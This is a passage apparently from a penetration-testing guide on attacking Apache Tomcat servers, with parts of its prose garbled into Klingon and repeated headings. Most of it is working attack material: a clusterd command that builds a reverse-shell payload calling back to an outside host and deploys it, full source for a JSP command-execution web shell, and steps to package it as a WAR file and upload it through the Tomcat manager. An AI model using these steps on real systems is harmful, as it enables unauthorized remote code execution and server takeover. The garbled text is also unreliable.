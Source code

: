 Culsterd is a powerful tool that can be used to exploit vulnerabilities in Apache Tomcat servers. By using its modules, you can perform various attacks and gain unauthorized access to the target server. However, it is important to note that using Culsterd for unauthorized purposes is illegal and unethical. Always ensure that you have proper authorization before using this tool.
```bash
clusterd.py -i 192.168.1.105 -a tomcat -v 5.5 --gen-payload 192.168.1.6:4444 --deploy shell.war --invoke --rand-payload -o windows
```
### Qap manual - Web shell

Qap **index.jsp** vItlhutlh [content](https://raw.githubusercontent.com/tennc/webshell/master/fuzzdb-webshell/jsp/cmd.jsp):
```java
<FORM METHOD=GET ACTION='index.jsp'>
<INPUT name='cmd' type=text>
<INPUT type=submit value='Run'>
</FORM>
<%@ page import="java.io.*" %>
<%
String cmd = request.getParameter("cmd");
String output = "";
if(cmd != null) {
String s = null;
try {
Process p = Runtime.getRuntime().exec(cmd,null,null);
BufferedReader sI = new BufferedReader(new
InputStreamReader(p.getInputStream()));
while((s = sI.readLine()) != null) { output += s+"</br>"; }
}  catch(IOException e) {   e.printStackTrace();   }
}
%>
<pre><%=output %></pre>
```

```bash
mkdir webshell
cp index.jsp webshell
cd webshell
jar -cvf ../webshell.war *
webshell.war is created
# Upload it
```
### Manual Method 2

Get a JSP web shell such as [this](https://raw.githubusercontent.com/tennc/webshell/master/fuzzdb-webshell/jsp/cmd.jsp) and create a WAR file:

### Manual Method 2

[http://vonloesch.de/filebrowser.html](http://vonloesch.de/filebrowser.html) jIvuvDI' 'ej 'oH 'ej 'ay' 'ej qetlh jatlh:
```bash
wget https://raw.githubusercontent.com/tennc/webshell/master/fuzzdb-webshell/jsp/cmd.jsp
zip -r backup.war cmd.jsp
# When this file is uploaded to the manager GUI, the /backup application will be added to the table.
# Go to: http://tomcat-site.local:8180/backup/cmd.jsp
```
## POST
